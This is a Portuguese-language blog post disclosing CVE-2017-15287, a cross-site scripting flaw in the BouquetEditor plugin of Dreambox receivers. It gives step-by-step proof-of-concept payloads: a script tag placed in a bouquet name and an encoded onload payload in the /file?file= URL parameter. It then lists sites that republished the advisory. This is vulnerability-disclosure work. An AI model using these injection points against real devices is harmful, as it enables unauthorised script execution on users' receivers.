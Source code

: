 ```yaml
---
title: "[CVE-2017-15287] Vulnerability XSS - Dreambox"
date: 2017-10-13 04:45:59 Z
categories:
- cve
layout: post
description: 'Vulnerabilty: Cross-site scripting (XSS) in plugin BouquetEditor'
---
```


Prova de Conceito (Proof of Concept - PoC), que virou o [CVE-2017-15287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"} por Thiago "THX".

### Sobre o Software:

O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.

### As vulnerabilidades:

#### Vulnerabilidade 1

O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado "BouquetEditor":

```
URL: http://IP:PORT/bouqueteditor/
```

Passos:

1. Na aba Bouquets, ira adicionar uma nova bouquet

![Passo 1]({{ site.url }}images/posts/1.png)

2. Assim, irar colocar o script:

```
(<script>alert('XSS')</script>)
```

![Passo 2]({{ site.url }/images/posts/2.png)

3. Vulnerability XSS

![Passo 3]({{ site.url }}images/posts/3.png)

#### Vulnerabilidade 2

A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)

```
Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
```

![XSS via endereço]({{ site.url }}images/posts/4.png)

### Compartilhamentos:

Sites que já compatilharam o CVE:

[0day](https://fr.0day.today/exploit/description/28784){:target="_blank" rel="noopenner noreferrer"}

[CERTSI](https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[CXSecurity](https://cxsecurity.com/issue/WLB-2017100103){:target="_blank" rel="noopenner noreferrer"}

[Exploit Database](https://www.exploit-db.com/exploits/42986/){:target="_blank" rel="noopenner noreferrer"}

[Exploit Kitploit](http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html){:target="_blank" rel="noopenner noreferrer"}

[HackerTor](https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/){:target="_blank" rel="noopenner noreferrer"}

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[PacketStorm](https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt){:target="_blank" rel="noopenner noreferrer"}

[Security Database](https://www.security-database.com/detail.php?alert=CVE-2017-15287&utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)){:target="_blank" rel="noopenner noreferrer"}

[SecNews24](https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/){:target="_blank" rel="noopenner noreferrer"}

[TSecurity](https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/){:target="_blank" rel="noopenner noreferrer"}

[VulDB](https://vuldb.com/fr/?id.107825){:target="_blank" rel="noopenner noreferrer"}
